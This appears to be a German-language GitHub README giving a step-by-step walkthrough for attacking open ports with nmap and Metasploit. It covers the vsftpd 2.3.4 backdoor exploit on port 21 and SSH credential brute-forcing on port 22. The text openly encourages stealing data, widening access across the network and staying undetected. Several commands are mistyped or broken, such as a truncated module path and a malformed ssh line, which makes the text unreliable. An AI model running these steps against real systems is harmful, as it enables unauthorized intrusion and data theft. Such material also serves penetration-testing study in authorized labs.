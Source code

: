 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``
  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts <IP-Adresse des Ziels> ``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
Dieser Coammand sagt aus bei erfolgreichem erraten der Login Credentials wird der angrif abgebrochen.
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/<Name des Files>``

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/<name des Files>``

![image](https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png)![image](https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png)

Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="670" height="250">

Mit folgendem Command kann eine Session mit den Ziel Aufgebaut werden. 
``sessions -i 1``

Mit dieser Session kann man alle möglichen Informationen über das Zielsystem herausfinden und seinen Zurgriff im Netzwerk erweitern oder Daten stehlen:
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134683131-31681483-ce4f-45de-868f-6c3a52d6d647.png" alt="PStatus Serie" width="500" height="110">

Falls dein Eindringen unbemerkt bleibt und das Passwort oder der Username nicht geändert wird, kannst du dich einfach per ssh mit dem Zielsystem verbinden.
```ssh <username>@<password>``

